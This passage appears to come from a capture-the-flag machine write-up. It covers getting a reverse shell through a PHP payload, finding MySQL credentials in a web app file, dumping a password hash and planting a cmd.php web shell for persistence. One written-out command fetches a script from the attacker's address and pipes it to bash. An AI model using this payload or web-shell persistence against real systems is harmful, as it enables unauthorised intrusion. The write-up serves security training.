 This worked out pretty well as I was able to see the output here.

<figure><img src="../../../.gitbook/assets/image (38) (1) (2) (1).png" alt=""><figcaption></figcaption></figure>

We can then replace the command with ``<?=`wget -O - 10.10.14.152/b|bash` ?>``

Now, we have a reverse shell as `www-data`.

<figure><img src="../../../.gitbook/assets/image (11) (1) (3) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation to Victor

Victor was the only user on this machine, and we needed to find his credentials or something.

### MySQL Creds

Within the `~/developers/login.php` file, I found some credentials.

<figure><img src="../../../.gitbook/assets/image (27) (2) (2).png" alt=""><figcaption></figcaption></figure>

It appears there was a MySQL Instance on the machine running. We can login to that using `mysql -u webapp_user -p`.

Then, we can enumerate this database.

<figure><img src="../../../.gitbook/assets/image (347) (1).png" alt=""><figcaption></figcaption></figure>

We can find a hash from the `developers` database.

<figure><img src="../../../.gitbook/assets/image (34) (1) (2).png" alt=""><figcaption></figcaption></figure>

Couldn't crack the hash though.

### Persistence

For some persistance, I dropped a `cmd.php` shell into the `forum` website, so that I can establish RCE at any given time.
